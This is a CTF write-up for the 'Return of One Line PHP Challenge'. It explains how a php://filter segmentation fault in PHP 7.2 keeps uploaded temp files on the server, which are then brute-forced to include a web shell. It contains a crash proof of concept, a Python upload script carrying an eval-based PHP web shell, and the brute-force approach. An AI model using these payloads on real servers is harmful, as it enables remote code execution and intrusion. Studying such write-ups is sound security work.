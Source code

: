 ### References

- [@wupco, rwctf | The return of One Line PHP Challenge, 2018-12-02](http://www.wupco.cn/?p=4465)
- [@Smi1e, Real World CTF Of "The Return of One Line PHP Challenge", 2018-12-05](https://www.anquanke.com/post/id/167219)
- [@王一航, LFI via SegmentFault, 2017-11-08](https://www.jianshu.com/p/dfd049924258)

**Tag: PHP wrappers, Segment Fault**

There was one bug submitted in 2017 from 王一航, which was segmentation fault in php version < 7.2, you can get information in reference[3]

This challenge is similar to this bug, but the php version given here was 7.2, 
so we need to find segmentation fault in 7.2. [Here](https://hackmd.io/@ZzDmROodQUynQsF9je3Q5Q/Hk-2nUb3Q?type=view) is analysis from @wupco, and we can get the POC:

```php
php > echo phpversion();
7.2.12
php > file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
Segmentation fault (core dumped)
```

1.As everyone knows, when we upload a file, server make a temp file having same content as uploaded file and after some time it gets deleted.

The temp file will be stored in the default temporary directory of the server after file is uploaded, and the directory is specified by the `upload_tmp_dir` attribute of php.ini

- Generally, Linxu temporary files are stored in the `/tmp` folder, and named `/tmp/php[6 random letter]`
- And Windows is `C:/Windows/`, may also be `C:/Windows/Temp/`, and named `C:/Windows/php[4 random letter].tmp`

2.We can use the following script to make POST request and send shell file:

```python
import io
import requests

HOST = "http://192.168.200.129/test.php"
SHELL = "@<?php eval($_REQUEST[a]);?>"
PAYLOAD = "php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAAAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA"

f = {'file': io.BytesIO(SHELL.encode())}
url = HOST + f'?orange={PAYLOAD}'
with requests.session() as s:
    r = s.post(url=url, files=f, allow_redirects=False)
    print(r.status_code)
```

The output status code in Apache is 500, and in Nginx is 502. In `/tmp`, we can find the temp file:

![](https://i.imgur.com/5abE2HS.png)

3.Now we just need to bruteforce for the temp file. But before that, we can upload multiple times to generate a large number of temp files which can improve the efficiency of brute force.

For demonstration, I changed the file name manually:

![](https://i.imgur.com/FgqLSzm.png)

btw, i dont know how to terminate the program in multiple threads. sad😥

![](https://i.imgur.com/xLq4H38.png)